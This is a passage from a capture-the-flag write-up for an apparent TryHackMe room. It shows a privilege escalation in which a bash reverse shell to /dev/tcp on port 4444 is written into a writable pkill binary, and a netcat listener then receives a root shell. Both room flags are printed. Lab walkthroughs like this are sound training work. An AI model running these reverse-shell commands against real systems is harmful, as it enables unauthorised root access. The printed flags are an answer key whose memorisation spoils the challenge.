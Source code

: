   echo "bash -c '/bin/bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1'">bin/pkill ; chmod +x bin/pkill
  ```

- Now you gotta go fast! Login through SSH and as soon as you are in paste the payload and run it (press Enter). After executing it you will receive a connection on your listener with root access.

  ```
  Last login: Mon May 26 21:34:04 2025 from 10.8.120.52
  $ echo "bash -c '/bin/bash -i >& /dev/tcp/10.8.120.52/4444 0>&1'">bin/pkill ; chmod +x bin/pkill
  $ whoami
  lachlan
  $ nope

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.151.54] 56970
  bash: cannot set terminal process group (3914): Inappropriate ioctl for device
  bash: no job control in this shell
  root@b2r:~# whoami
  whoami
  root
  root@b2r:~# id
  id
  uid=0(root) gid=0(root) groups=0(root)
  ```

- Important tip: If you try this payload `echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.8.120.52/4444 0>&1'">/bin/pkill ; chmod +x /bin/pkill`, it wont work because you can't overwrite system files as regular user, only root can!

- Now just read the flag.

  ```
  root@b2r:~# pwd
  pwd
  /root
  
  root@b2r:~# ls -al
  ls -al
  total 28
  drwx------  4 root root 4096 May  5  2022 .
  drwxr-xr-x 19 root root 4096 May  5  2022 ..
  lrwxrwxrwx  1 root root    9 May  5  2022 .bash_history -> /dev/null
  -rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
  -rw-r--r--  1 root root  161 Dec  5  2019 .profile
  -rw-r--r--  1 root root   38 May  5  2022 root.txt
  drwx------  3 root root 4096 May  5  2022 snap
  drwx------  2 root root 4096 May  5  2022 .ssh
  
  root@b2r:~# cat root.txt
  cat root.txt
  thm{7b708e5224f666d3562647816ee2a1d4}
  ```

---

## 🏁 Flags

- **User Flag**: `thm{af7e46b68081d4025c5ce10851430617}`
- **Root Flag**: `thm{7b708e5224f666d3562647816ee2a1d4}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  ```